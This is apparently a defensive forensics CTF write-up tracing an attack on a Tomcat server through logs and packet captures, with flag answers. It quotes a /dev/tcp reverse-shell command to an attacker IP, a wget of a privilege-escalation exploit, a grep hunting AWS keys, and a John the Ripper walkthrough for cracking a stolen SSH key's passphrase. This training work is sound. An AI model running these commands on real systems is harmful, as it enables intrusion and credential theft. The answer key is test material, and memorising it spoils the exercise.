# Loan

## Loan01
> When digging deeper in the available evidence after the incident, we detected unusual web requests on the "loan" server. From which IP address did these requests originate?

> Flag: `176.9.15.89`

## Loan02
> Which country does that IP address come from?

> Flag: `Germany`

## Loan03
> Which organization does this IP address belong to?

> Flag: `Hetzner Online GmbH`

## Loan04
> A scanning attack was performed on the loan server. Which application server (Java web server) is running on the loan host?

> Flag: `tomcat11`

## Loan05
> After the requests indicating a scan, we recorded several requests suggesting that content was being stored on the server. How many such requests were created?
 
> Flag: `3`

## Loan06
> What URL path does the first of these requests have?
 
> Flag: `/zYfIgNzVzK.session`

## Loan07
> Right after PUT request, there is GET request, repeated three times. Seems like attemps to exploit some vulnerability. Based on already collected evidence, what could be the CVE of this vulnerability? (format CVE-XXXX-XXXXX)

> Flag: `CVE-2025-24813`

## Loan08
> Nice, remote code execution... When was this vulnerability reported to the Tomcat security team? Format: `YYYY-MM-DD`.

> Flag: `2025-01-13`

## Loan09
> What is the name of the Apache Tomcat feature where the vulnerability exists? It is also unofficial name of this vulnerability used by security vendors.


> Flag: `partial PUT`

## Loan10
> Partial PUT typically uses which header in an HTTP request to specify which part of the resource should be modified?

> Flag: `Content-Range`

## Loan11
> Were those RCE attempts successful? I am sure you know the answer, even before digging in more logs. A few minutes after the last of those 3 requests, an alert in company SIEM related to the loan machine was triggered. What is the name of the alert?


> Flag: `Shell Script`

## Loan12
> Between which two public IP addresses did the communication take place in the given alert? (format source,destination)

> Flag: `80.242.40.20,192.30.253.137`

## Loan13
> Under what name was the first downloaded file saved to disk? Full path

> Flag: `/tmp/r`

## Loan14
> What User-Agent was used in the request related to the download of the file?

To answer this question, we must look at the network traffic in provided pcap file. We open file in Wireshark and apply filter `ip.addr == 192.30.253.137`, then right-click on the HTTP protocol and select Follow->HTTP stream:



New window will open where we will see full HTTP session communication between source `192.168.11.49` and destination `192.30.253.137` when attacker downloaded `memory_test.sh` where we see our answer:


> Flag: `Wget/1.21.4`

## Loan15
> What http server was used to host this file on attacker's side?

We see answer for this at the previous question.

> Flag: `SimpleHTTP/0.6 Python/3.13.11`

## Loan16
> Under which user account was the file executed?

From the previous questions, we see that user downloaded `memory_test.sh` and saved it as `/tmp/r` file. We can search for `/tmp/r` in the `auditbeat-*` and look at the `user.name` field.



> Flag: `tomcat`

## Loan17
> What is the PPID of the process that executed this file?

To the previous search, we add `process.parent.id` field to the table.



> Flag: `15423`

## Loan18
> What is the name of the process whose ID you provided in the previous question?

For this we search in Kibana `process.pid:"15423"` and see that it is `java`.


> Flag: `java`

## Loan19
> The process which executed the file behaves suspiciously and we observed unusual communication. Which IP and port is the file communicating with? (format ip:port)

From the screeshot in task [Loan18](#loan18) we see that the process `/tmp/r` started network connection with destination IP `195.20.9.183` on port `8443`.

> Flag: `195.20.9.183:8443`

## Loan20
> What shebang is specified at the beginning of the aforementioned file?

We know that the process `/tmp/r` originates from downloaded `memory_test.sh` and looking at the HTTP stream content in task [Loan14](#loan14), we see that it is `bash` process.

> Flag: `#!/bin/bash`

## Loan21
> If you focus on the second line of the file, you will see that it is a reverse shell. What PID does the process have that represents the reverse shell itself?

Reverse shell process `/tmp/r` was executed by running `bash -i >& /dev/tcp/195.20.9.183/8443 0>&1` command, so we can look at the surrounding documents around document from task [Loan17](#loan17) and see that the parent process PID of the `/tmp/r` process (PID `23486`) is process `bash -i` with PID `23487`.



> Flag: `23487`

## Loan22
> Which file was executed via the reverse shell (full path)?

For this we need to see what was executed via reverse shell. To do this, we need to look into pcap file and see if communication between source IP `192.168.11.49` and destination `195.20.9.183:8443` was captured. We open pcap and apply filter `ip.addr == 195.20.9.183`. There we see only TCP traffic, so we click on any record, right-click and select Follow->TCP Stream.



Wireshark will reconstruct full network communication and we will see what file attacker downloaded and executed. 



> Flag: `/tmp/cpu_test.sh`

## Loan23
> What is the alert ID of the alert related to this file?

We need to go back Kibana Security->Alerts dashboard, where we can search for `"cpu_test.sh"`. There will be another `Shell script` alert and look at the `_id` filed.



> Flag: `ae2a62051617b86c6a02f866b95fbe4e67ed7560061c975ae1a438cd4da078d1`

## Loan24
> What is the IP address from which the file was downloaded?

We can see that from the TCP Stream we did in previous task:

```
tomcat@loan:/$ wget http://128.127.97.227:8080/cpu_test.sh -O /tmp/cpu_test.sh

<128.127.97.227:8080/cpu_test.sh -O /tmp/cpu_test.sh
--2026-01-15 16:43:01--  http://128.127.97.227:8080/cpu_test.sh
Connecting to 128.127.97.227:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 756 [application/x-sh]
Saving to: .../tmp/cpu_test.sh...
```

> Flag: `128.127.97.227`

## Loan25
> What is the country name related with this IP address?

We can either check this with sites like [AbuseIPDB](https://www.abuseipdb.com/check/128.127.97.227), [VirusTotal](https://www.virustotal.com/gui/ip-address/128.127.97.227) or we can check the details in the alert in Kibana.

> Flag: `Kazakhstan`

## Loan26
> Which CVE does the file cpu_test.sh exploit? (format CVE-XXXX-XXXXX)

For this we extracted the `cpu_test.sh` from the pcap file by applying filter `ip.addr == 128.127.97.227` in Wireshark and following HTTP Stream. Then we used one of the online LLMs and asked it for the answer, which we verified by looking at GitHub for mentioned CVE and confirmed that our `cpu_test.sh` looks similar to several implementations of CVE-2025-32463 - Local Privilege Escalation to Root via Sudo chroot in Linux.

> Flag: `CVE-2025-32463`

## Loan27
> Oh great, so immediately after execution of the exploit, we have attacker with root privileges. Attackers often leave easter eggs. What is the attacker’s nickname who successfully performed the privilege escalation?

From task [Loan22](#loan22) we can see part after attacker executed `cpu_test.sh`, he wrote:
```
tomcat@loan:/$ /tmp/cpu_test.sh
/tmp/cpu_test.sh
I slipped... now I'm root ... H4ck3rM4n
...
```
> Flag: `H4ck3rM4n`

## Loan28
> Right after gaining root privileges, attacker started doing system recon. Which process name was used to perform the search?

We see this from the reconstructed TCP Stream from reverse shell:



> Flag: `grep`

## Loan29
> Attacker tried to find files, which contain some specific string. What was that string?

See previous task.

> Flag: `AKIA`

## Loan30
> This is a (well) known string for access keys of which cloud provider?

Asked LLM, this is the answer: This string is a well-known prefix for AWS Access Key IDs, indicating the attacker was hunting for hard-coded cloud credentials.

> Flag: `AWS`

## Loan31
> Into which file did the attacker write the results (full path)?

From the obtained TCP Stream:

```
grep -RIlEi 'AKIA' / --exclude-dir=... 2>/dev/null | tee /tmp/hsperfdata_tomcat.tmp

```

> Flag: `/tmp/hsperfdata_tomcat.tmp`

## Loan32
> From which URL did the attacker try to download rclone installation script?

We see that later in the reverse shell TCP Stream:



> Flag: `https://rclone.org/install.sh`

## Loan33
> Where exactly did the attacker copy the file they were writing into?

Analyzing futher the reverse shell TCP Stream, we see that attacker configured rclone endpoint and uploaded files to:



> Flag: `mega:/backup`

## Loan34
> What was the server domain that file /tmp/hsperfdata_tomcat.tmp was uploaded to?

From the TCP Stream we only see it uploading to `mega:/backup` but to get the answer, we need to look at the Kibana for the `rclone` activity:


> Flag: `g.api.mega.co.nz`

## Loan35
> There was another file copied to the destination. From the home directory of which user was the file copied?

At the end to TCP Stream we can see that attacker was looking for ssh keys for users defined in the system:



> Flag: `spravca`

## Loan36
> What is the name of the copied file?

> Flag: `id_ed25519`

## Loan37
> What is usually the content of the copied file? Answer accepts 2 and 3 word variant

> Flag: `SSH private key`

## Loan37.5
> We were able to recover this OpenSSH private key [id_ed25519](img/Loan/id_ed25519). What is the passphrase?

Install and compile [john](https://www.openwall.com/john/) (don't use garbage old version from APT) prepare the private key with `ssh2john.py`

```
~$ ssh2john.py id_ed25519 > ssh.hash
```
Download `rockyou.txt` leaked password list (this is mostly the default list everyone is using in CTF, in real life it would be more complicated). Download it from GitHub not some shady place https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz

Run JohntheRipper on the ssh.hash with
```
./john --wordlist=rockyou.txt ssh.hash 
```
For curiosisty this is the hash that JohntheRipper needs to crack the password not the PEM format, or other standard formats that ssh-keygen outputs (truncated, but the header is important, because this is the insruction to john what algo it needs to use for cracking, the rest is the hash value of the key i guess)
```
id_ed25519:$sshng$6$16$fbdc75dfb05e6f693397fadb0aa84cd4$274$6f70656e7373682d6b65792d76310000................
```

> Flag: `sweetie`

## Loan38
> We can also see that something was downloaded to the host, what process.name was present in the download log?

In `auditbeat-*` search for `host.name :"loan"` and look at the logs around time `18:00` to `18:15`, after the `rcone` upload, there is another download via `wget`:



> Flag: `wget`

## Loan39
> What is the full download URL?

We can see the URL from the previous task.

> Flag: `https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_linux_amd64.tar.gz`

## Loan40
> So, ligolo-ng was downloaded. Great pivoting and tunneling tool used by many pentesters, agent does not even require full administrator privileges, but it works differently than many other similar tools. It does not initiate SOCKS proxy. What kind of interface does it use instead? 2 words

Visiting the [GitHub page of the tool](https://github.com/nicocha30/ligolo-ng) we see the answer in the description of the tool:

```
An advanced, yet simple, tunneling tool that uses TUN interfaces.
```

> Flag: `TUN interface`

